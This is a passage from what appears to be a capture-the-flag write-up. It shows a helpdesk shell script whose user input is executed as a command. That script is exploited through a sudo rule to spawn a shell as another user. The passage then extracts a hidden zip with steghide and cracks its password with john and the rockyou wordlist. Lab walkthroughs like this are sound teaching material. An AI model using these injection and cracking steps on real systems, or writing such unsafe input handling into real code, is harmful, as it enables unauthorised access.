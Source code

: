     secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on ubuntu:
    (apaar : ALL) NOPASSWD: /home/apaar/.helpline.sh
```

```
www-data@ubuntu:/home/apaar$ cat .helpline.sh       
cat .helpline.sh
#!/bin/bash

echo
echo "Welcome to helpdesk. Feel free to talk to anyone at any time!"
echo

read -p "Enter the person whom you want to talk with: " person

read -p "Hello user! I am $person,  Please enter your message: " msg

$msg 2>/dev/null

echo "Thank you for your precious time!"
```

```
sudo -u apaar /home/apaar/.helpline.sh

Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: me
me
Hello user! I am me,  Please enter your message: chmod +rwx /home/apaar/local.txt
chmod +rwx /home/apaar/local.txt
Thank you for your precious time!



Welcome to helpdesk. Feel free to talk to anyone at any time!

Enter the person whom you want to talk with: me
me
Hello user! I am me,  Please enter your message: /bin/bash 
```

## other user


<img src="images/images.png">


```
┌──(kali㉿kali)-[~/Desktop/chill]
└─$ steghide extract -sf hacker-with-laptop_23-2147985341.jpg 
Enter passphrase: 
wrote extracted data to "backup.zip".
```

<img src="images/backup.png">


```
┌──(kali㉿kali)-[~/Desktop/chill]
└─$ john zipJohn --wordlist=/home/kali/Desktop/rockyou.txt 
Using default input encoding: UTF-8
Loaded 1 password hash (PKZIP [32/64])
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
pass1word        (backup.zip/source_code.php)     
1g 0:00:00:00 DONE (2023-11-23 16:44) 20.00g/s 245760p/s 245760c/s 245760C/s total90..hawkeye
Use the "--show" option to display all of the cracked passwords reliably
Session completed. 